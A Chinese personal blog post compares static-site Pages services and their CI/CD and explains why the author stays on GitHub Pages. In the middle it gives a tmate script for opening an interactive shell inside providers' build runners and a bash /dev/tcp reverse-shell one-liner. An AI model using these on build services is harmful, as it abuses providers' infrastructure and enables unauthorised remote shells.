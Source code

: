   由于近期前端很火，所以最近各种Pages服务就冒了出来，因为纯前端页面几乎不耗费服务器资源，所以很多公司都愿意免费提供这种服务。然后现在CI/CD也很火，结果就有很多Pages服务就把这些东西全绑上，形成了一套很完整的系统。比如说各种模仿Github Pages的Gitlab Pages、Gitee Pages，还有Vercel、Cloudflare Pages等等，可以说是百花齐放了。当然如果不想用这些服务，用自己的服务器上面架静态网站也没有问题。我当时用Github Pages做博客的时候还没有这些服务呢，当然我现在也不打算换就是了。   
  目前来看除了Github Pages是只支持Jekyll，不支持执行其他网页生成器之外，其他的服务都支持完整的CI/CD。不过Github有Actions，真想搞也不是不行，就是有点麻烦，像我以前做的[Pixiv索引](/pixiv-index/)就是基于Github的Actions+Pages服务做的。不过当时我做博客的时候也没有Actions来着😂，我当时做[Mayx的日报](/MayxDaily/)的时候就用的是第三方的Travis-CI服务。   
  不过既然有CI/CD，那就有滥用的风险，我以前试过用[tmate](https://github.com/tmate-io/tmate)连接过那些Pages服务的CI/CD，具体的话大家可以用以下脚本连接：
```shell
#!/bin/bash
# Generate ssh key if needed
mkdir ~/.ssh
[ -e ~/.ssh/id_rsa ] || ssh-keygen -t rsa -f ~/.ssh/id_rsa -q -N ""

# Run deamonized tmate
echo Running tmate...
chmod 777 ./tmate
./tmate -S /tmp/tmate.sock new-session -d
./tmate -S /tmp/tmate.sock wait tmate-ready

# Print connection info
echo ________________________________________________________________________________
echo
echo To connect to this session copy-n-paste the following into a terminal:
./tmate -S /tmp/tmate.sock display -p '#{tmate_ssh}'

while [ -S /tmp/tmate.sock ]
do
sleep 1
done
```
  这个方法是手头没服务器的用，不过不得不说tmate还挺好用的。有服务器的话建议用`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`一键反弹，然后用python的pty库升级成正常的shell就行了。   
  我大概看了一下，Vercel的部署服务器性能貌似是最好的，Cloudflare Pages和Github Actions的配置一样，有可能都是用的Azure云，虽然有滥用的风险，但是不鼓励大家去滥用。像之前我就有看新闻说有些人用Github Actions挖矿，虽然这些服务确实让很多前端开发者享受到了便利，但是被滥用还是挺糟糕的。   
  不过今天讲的是建博客，有点跑题了😂。不过也正是那些限制很少的CI/CD，可以让我们很方便的去部署我们的静态网站，无论用npm打包js，还是自动爬取页面缓存，或者正常点，用Hexo生成博客，都只需要我们直接配置好，就可以直接使用了。   
  既然其他Pages服务那么好我为什么还在用Github Pages呢？这是因为Github可以部署很多仓库到网站。其他的Pages服务部署都是各自是各自的域名，但是Github Pages就能直接在同域名下访问其他我开了Pages服务的仓库。   
  不过静态网站虽然优点很明显，节省服务器资源，但是问题就是在于它不太适合小白，虽然说现在部署一个博客也很简单，去Github上面Fork一个自己喜欢的模板，然后再选择自己喜欢的Pages服务提供商配置一下就好了，但是首先Github对小白操作也不那么容易，搜模板不能像WordPress那样可以预览，能不能用全看作者怎么写的，另外写文章也没办法做到所见即所得，毕竟Markdown语法虽然很简单但是还是需要记的，不能点一下就OK，然后就是各种功能的实现也很复杂，像我博客上的[搜索](/2021/07/23/search.html)、[计数器](/2019/06/22/counter.html)、[加密](/2019/06/11/encrypt.html)、[评论](/2018/10/20/talk.html)实现起来都很不容易，不像动态网站那样直接CRUD一把梭，这些用动态网站实现起来就简单很多。   
  如果说大家想建一个可以在国内方便访问的静态博客，我个人建议用Gitee的，稳定性还不错。国外的话可能Cloudflare Pages更好一些，主要是我比较喜欢那个域名，就是部署的速度有点太慢了，访问速度还是挺不错的。   
### 我的Pages服务示例
  <https://mayx.pages.dev/>   
  <https://mayx.vercel.app/>   
  <https://mabbs.github.io/>   
  